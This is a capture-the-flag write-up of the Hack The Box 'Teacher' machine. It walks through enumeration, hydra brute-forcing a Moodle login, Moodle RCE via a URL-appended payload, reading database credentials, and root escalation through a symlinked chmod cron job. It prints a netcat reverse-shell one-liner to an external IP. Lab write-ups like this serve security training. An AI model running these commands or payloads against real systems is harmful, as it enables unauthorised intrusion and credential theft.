 ```yaml
---
title: "[HTB] Machine: Teacher"
description: "[HTB] Machine: Teacher"
date: 2023-06-12
menu:
  sidebar:
    name: "[HTB] Machine: Teacher"
    identifier: htb-machine-teacher
    parent: htb-machines-linux
    weight: 10
hero: images/teacher.png
tags: ["HTB", "debian", "stretch", "skipfish", "hydra", "python", "cve-2018-1133", "crackstation", "mysql", "pspy", "su", "cron", "chmod", "arbitrary-write", "moodle"]
---
```


# Teacher
## Enumeration
- `nmap`
```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.10.10.153                                 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-15 16:50 BST
Nmap scan report for 10.10.10.153 (10.10.10.153)
Host is up (0.10s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Blackhat highschool

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.53 seconds
```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.153 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.153
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,html
[+] Timeout:                 10s
===============================================================
2023/06/15 16:47:54 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 292]
/images               (Status: 301) [Size: 313] [--> http://10.10.10.153/images/]
/index.html           (Status: 200) [Size: 8028]
/gallery.html         (Status: 200) [Size: 8254]
/css                  (Status: 301) [Size: 310] [--> http://10.10.10.153/css/]
/manual               (Status: 301) [Size: 313] [--> http://10.10.10.153/manual/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.153/js/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.10.153/javascript/]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.10.153/fonts/]
/phpmyadmin           (Status: 403) [Size: 297]
/moodle               (Status: 301) [Size: 313] [--> http://10.10.10.153/moodle/]
/.html                (Status: 403) [Size: 292]
/server-status        (Status: 403) [Size: 300]

```
- Web server

![](./images/1.png)

- Checked a few interesting paths provided by `gobuster`

![](./images/2.png)

![](./images/3.png)

![](./images/4.png)

## Foothold
- I spend so much time searching for clues
  - Checked `searchploit`
  - Found a few `rce` exploit, but they require authentification

![](./images/6.png)

- Checked `/images`
  - And found a note

![](./images/5.png)

- We have piece of the password, let's write a script to generate all possible variations

![](./images/7.png)

![](./images/8.png)

- Let's run `hydra`
  - `hydra -l Giovanni -P passwords.list teacher.htb http-post-form "/moodle/login/index.php:anchor=&username=^USER^&password=^PASS^&rememberusername=1:Invalid login"`

![](./images/9.png)

- Now we can check the exploits
  - There is a [post](https://www.sonarsource.com/blog/moodle-remote-code-execution/) explaining `rce` in moodle

![](./images/10.png)

- Now we need to follow the steps and get our rce
  - Launch a listener
  - And perform the steps defined in the [post](https://www.sonarsource.com/blog/moodle-remote-code-execution/)
  - The following screenshots contain the steps described in the [post](https://www.sonarsource.com/blog/moodle-remote-code-execution/)

- Login, turn on editing and add an activity to any topic
  - Select `Quiz`

![](./images/11.png)

![](./images/12.png)

- Fill in required fields and save

![](./images/13.png)

- Open quiz and click on `edit quiz` button

![](./images/14.png)

- Add a new question

![](./images/15.png)

- Select `calculated`

![](./images/16.png)

- Fill in required forms
  - Add payload to `Answer` field
  - Save and click next

![](./images/17.png)

- Add payload to end of `url`
  - `&0=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.16.3 6666 >/tmp/f`

![](./images/18.png)

- We got a foothold

![](./images/19.png)

## User
- Enumerate
  - We can run `linpeas`
  - I started with basic enumeration 
  - `sudo -l` with no success
  - `find / -perm -4000 -exec ls -lha {} \; 2>/dev/null` no success
  - `ps -ef` showed that we have a `mysql` running

![](./images/20.png)

- Let's check the `/var/www/html/moodle` folder
  - Search for `db` configuration file

![](./images/21.png)

- We found `config.php`
  - Open it and use the creds stored to connect to `mysql`
    - `mysql -u root -p`
    - Found creds stored in `moodle` db and `mdl_user` table

![](./images/22.png)

- Checked hash in `Crackstation`
  - `su` to `giovanni`

![](./images/23.png)

![](./images/24.png)

## Root
- Enumerate again
  - `pspy` and `linpeas`

![](./images/25.png)

- Let's open the `script`

![](./images/26.png)

- We have few variants
  - Change permissions using symbolic links `ln -s` since `for each symbolic link listed on the command line, chmod changes the permissions of the pointed-to file`
  - So we can create links to
    - `/etc/passwd` -> modify it by adding `root` user
    - `/etc/shadow` ->  modify it by adding `root` user or crack `root` hash
    - `/usr/bin/backup.sh` -> append reverse shell payload
  - I prefered the last option

![](./images/27.png)

![](./images/28.png)

![](./images/29.png)

- Setup listener and wait for connection
  - Rooted

![](./images/30.png)

